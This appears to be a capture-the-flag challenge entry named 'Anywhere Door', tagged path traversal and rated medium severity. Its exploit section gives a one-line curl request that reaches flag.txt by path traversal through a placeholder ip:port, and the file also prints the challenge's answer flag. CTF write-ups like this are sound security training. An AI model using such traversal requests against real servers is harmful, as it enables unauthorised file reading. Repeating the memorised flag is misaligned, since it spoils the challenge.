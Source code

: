 # Anywhere Door

Author: VascoZ

## Description

Pintu Kemana Saja /*suara doraemon/*

## Requirements

None

## Sources

-

## Tags

- Path Traversal

## Exploit

- curl http://ip:port/flag../flag.txt

## Flag

```
ITDEL{Bugzz_Hunt1ng_101_#!?}
```

## connection



## Severity
Medium
